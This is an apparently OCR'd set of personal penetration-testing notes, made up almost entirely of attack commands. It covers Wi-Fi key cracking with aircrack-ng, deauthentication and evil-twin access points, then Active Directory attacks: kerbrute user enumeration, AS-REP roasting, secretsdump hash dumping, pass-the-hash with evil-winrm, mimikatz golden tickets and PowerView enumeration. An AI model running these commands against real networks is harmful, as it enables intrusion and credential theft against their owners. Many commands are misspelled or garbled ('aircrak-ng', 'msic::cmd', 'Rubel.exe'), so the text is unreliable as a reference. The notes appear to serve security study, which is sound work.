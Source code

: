5 - crack PSK - brute force = aircrak-ng -w [wordlist] -b [my_mac] [file.cap]

### getting packages
- airomon-ng start wlan0 = promiscuous mode interface to sniff wireles package (same channel)
- airodump-ng network (wlan0monl) = sniff packages
- airodump-ng wlan0mon --bssid [123] --channel [123] --write OUTPUT
- 
### weak IV traffic
- 
- fake authentication
  - aireplay-ng --fakeauth 0 -a MAC wlan0mon -h MAC-host
  - aireplay-ng --deauth 0 -e "name" wlan0mon
  - 
### evil twin
- create fale access point (ap)
- deauthenticate client
- force clien to connect to fake ap

# Attack strategies

## Active Directory
- port 139/445
- Enum4linux = Enumerate
- kerbrute = brute force in kerberus active directory
  - Find users
    - kerbrute userenum -d domain --dc ip word_list.txt
- Find user without password (NP)
  - GetNPUsers.py --no-pass -usersfiles {wordlist.txt} domain.com/ -dc-ip [IP-address]
- find other hashes
  - secretsdump.py -dc-ip ip host.local/user@ip
- Pass the hash
  - evil-winrm -i IP -u USERNAME -H hash

## kereberos
- authentication service
- ticket system
- Enumerate users
  - kerbrute userenum -d domain --dc domain string wordlist.txt
- Rubel.exe (in the victim's machine) to find hashes
- mimikatz for golden ticket
  - lsadump::lsa /inject /name:USERNAME
  - kerberos::golden /user:[logged_user] /domain:[name_domain] /sid: /krbtgt:[hash_des_Nutzers] /id:
  - msic::cmd ==> access other machine

## basic post-exploit

### powerview
- enumrate domains on windows
  - powershell -ep bypass ==> allow run script
  - . .\PowerView.ps1
- Get-ChildItem function: ==> commands
 - Introduction: https://medium.com/@browninfosecguy/an-introduction-to-powerview-bdfd953f2c4c
   - $scriptFunctions = Get-ChildItem function: | Where-Object { $currentFunctions -notcontains $_ }
   - $scriptFunctions | Format-Wide -Column 4
   - Get-NetDomainController
   - Get-DomainPoliciy
   - get-netuser | select-object displayname,samaccountname  
   - Get-UserProperties -Properties 
   - get-netcomputer